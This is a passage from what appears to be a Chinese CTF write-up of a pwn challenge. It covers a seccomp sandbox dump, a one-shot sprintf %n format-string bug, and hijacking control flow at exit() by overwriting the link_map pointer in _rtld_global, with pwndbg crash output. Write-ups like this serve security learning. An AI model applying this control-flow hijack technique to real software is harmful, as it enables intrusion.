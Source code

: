 ```c
 0016: 0x15 0x05 0x00 0x0000002b  if (A == accept) goto 0022
 0017: 0x15 0x04 0x00 0x0000009d  if (A == prctl) goto 0022
 0018: 0x15 0x03 0x00 0x00000065  if (A == ptrace) goto 0022
 0019: 0x15 0x02 0x00 0x00000009  if (A == mmap) goto 0022
 0020: 0x15 0x01 0x00 0x0000000a  if (A == mprotect) goto 0022
 0021: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0022: 0x06 0x00 0x00 0x00000000  return KILL
```

可以看到基本常用的getshell，orw的都被禁用了

然后可利用的漏洞就只有sprintf的格式化字符串了，而且还只能用一次%n，题目后面给出了hint`栈里面怎么会有ld地址，这是什么`，然后调试到栈部分，发现了两个ld地址

```asm
0x7ffeeaf26778 —▸ 0x7f6948f8f040 (_rtld_global) —▸ 0x7f6948f902e0 ◂— 0x0
0x7ffeeaf267e0 —▸ 0x7f6948f902e0 ◂— 0x0
```

一个是`_rtld_global`结构体的地址，一个是`_rtld_global`结构体的`link_map`地址，可以都用%n试试，然后就能发现改第二个的时候，程序在`exit()`的时候会跳转到一个奇怪的地址，比如我们修改它为0x10，调试时在执行sprintf后发出`signal SIGSEGV`后进入信号处理发现程序崩溃

```asm
0x0000000000000080 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────[ REGISTERS / show-flags off / show-compact-regsoff]──────────────────────
*RAX  0x403d90 (_DYNAMIC+8) ◂— 0x80
*RBX  0x7f2e26821040 (_rtld_global) —▸ 0x7f2e268222e0 ◂— 0x10
 RCX  0x1
*RDX  0x1
*RDI  0x7f2e26821a48 (_rtld_global+2568) ◂— 0x0
*RSI  0x403d90 (_DYNAMIC+8) ◂— 0x80
*R8   0x7ffdd880a720 —▸ 0x7f2e268222e0 ◂— 0x10
*R9   0x20
 R10  0x0
*R11  0x7ffdd880a650 —▸ 0x7f2e268222e0 ◂— 0x10
*R12  0x0
*R13  0x7f2e26821a48 (_rtld_global+2568) ◂— 0x0
*R14  0x7ffdd880a720 —▸ 0x7f2e268222e0 ◂— 0x10
*R15  0x7f2e268222e0 ◂— 0x10
*RBP  0x7ffdd880a7a0 ◂— 0x0
*RSP  0x7ffdd880a718 —▸ 0x7f2e267ed24e (_dl_fini+526) ◂— mov rax, qword ptr [rbp - 0x38]
*RIP  0x80
───────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────────────────────
Invalid address 0x80










──────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────
00:0000│ rsp    0x7ffdd880a718 —▸ 0x7f2e267ed24e (_dl_fini+526) ◂— mov rax, qword ptr [rbp - 0x38]
01:0008│ r8 r14 0x7ffdd880a720 —▸ 0x7f2e268222e0 ◂— 0x10
02:0010│        0x7ffdd880a728 —▸ 0x7f2e26822890 —▸ 0x7ffdd89e7000 ◂— jg 0x7ffdd89e7047
03:0018│        0x7ffdd880a730 —▸ 0x7f2e267e54d0 —▸ 0x7f2e265ab000 ◂— 0x3010102464c457f
04:0020│        0x7ffdd880a738 —▸ 0x7f2e26821af0 (_rtld_global+2736) —▸ 0x7f2e267e7000 ◂— 0x3010102464c457f
05:0028│        0x7ffdd880a740 ◂— 0x1efe9660
06:0030│        0x7ffdd880a748 —▸ 0x7ffdd880a740 ◂— 0x1efe9660
07:0038│        0x7ffdd880a750 —▸ 0x7ffdd880a740 ◂— 0x1efe9660
```